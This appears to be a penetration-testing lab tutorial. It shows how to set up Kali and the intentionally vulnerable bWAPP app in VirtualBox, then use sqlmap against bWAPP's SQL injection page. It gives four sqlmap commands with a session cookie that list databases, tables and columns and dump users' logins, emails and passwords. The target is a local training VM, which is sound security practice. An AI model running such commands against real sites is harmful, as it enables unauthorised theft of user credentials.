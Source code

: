 # Kali + bWAPP

1. install Kali and bWAPP vm in virtual box;

   ![](/pentest/VirtualBox-2-VM.png)

2. launch bWAP and make sure it is running;

   ![](/pentest/bWAPP-VM.png)

3. Launch Kali and make sure you can access the bWAPP from Iceweasel.

![](/pentest/access-bWAPP-from-kali.png)

4. Go to SQL Injection \(GET/Search\)

![](/pentest/choose-SQL-GET.png)

1. key in a search string; copy of the resulted URL;![](/pentest/key-in-search-box.png)

2. Find out the cookie for the site;

![](/pentest/get-cookie-1.png)

![](/pentest/get-cookie-2.png)

**Now, it is show time; launch SQLmap from terminal;**

**step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs

![](/pentest/s1-sql-all-dbs.png)

**step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables

![](/pentest/s2-all-tables.png)

**step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

![](/pentest/s3-all-column.png)

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --

cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump

![](/pentest/s4-all-user-pwd.png)

